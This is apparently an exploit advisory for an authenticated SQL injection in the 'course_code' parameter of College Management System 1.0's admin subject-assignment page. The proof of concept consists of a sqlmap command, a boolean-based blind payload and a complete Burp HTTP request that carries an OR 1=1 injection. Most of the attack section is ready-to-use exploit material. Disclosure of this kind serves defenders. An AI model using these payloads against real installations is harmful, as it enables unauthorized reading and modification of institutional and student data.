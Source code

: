 # College Management System - 'course_code' SQL Injection (Authenticated)

1. Description:
----------------------

College Management System 1.0 allows SQL Injection via parameter 'course_code' in
/College-Management-System/admin/asign-single-student-subjects.php. Exploiting this issue could allow an attacker to compromise
the application, access or modify data, or exploit latent vulnerabilities
in the underlying database.


2. Proof of Concept:
----------------------

In Burpsuite intercept the request from the affected page with
'course_code' parameter and save it like poc.req. Then run SQLmap to extract the
data from the database:

sqlmap -r poc.req --dbms=mysql


3. Example payload:
----------------------

boolean-based blind
Payload: submit=Press&roll_no=3&course_code=-6093' OR 2121=2121 AND 'ddQQ'='ddQQ


4. Burpsuite request:
----------------------

POST /College-Management-System/admin/asign-single-student-subjects.php HTTP/1.1<br>
Host: localhost<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8<br>
Accept-Encoding: gzip, deflate<br>
Accept-Language: en-us,en;q=0.5<br>
Cache-Control: no-cache<br>
Content-Length: 80<br>
Content-Type: application/x-www-form-urlencoded<br>
Cookie: PHPSESSID=jhnlvntmv8q4gtgsof9l1f1hhe<br>
Referer: http://localhost/College-Management-System/admin/asign-single-student-subjects.php<br>
User-Agent: Mozilla/5.0 (Windows NT 10.0; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.0 Safari/537.36<br>
<br>
submit=Press&roll_no=3&course_code=Select+Course%27+OR+1%3d1+OR+%27ns%27%3d%27ns
